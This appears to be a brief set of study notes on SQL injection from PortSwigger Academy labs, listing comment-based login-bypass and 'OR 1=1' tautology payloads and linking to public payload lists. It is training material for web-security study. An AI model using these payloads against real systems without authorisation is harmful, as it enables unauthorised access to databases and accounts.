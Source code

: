 # burpSuite
aka Notes from PortSwigger Academy

## SQLi

- ```--``` comments out everything after

```
'--
admin'--
administrator'--
'+OR+1=1--
' OR 1=1 --
OR 1=1 --
```

- [payloads](https://github.com/payloadbox/sql-injection-payload-list#generic-sql-injection-payloads)
- [payloads2](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)
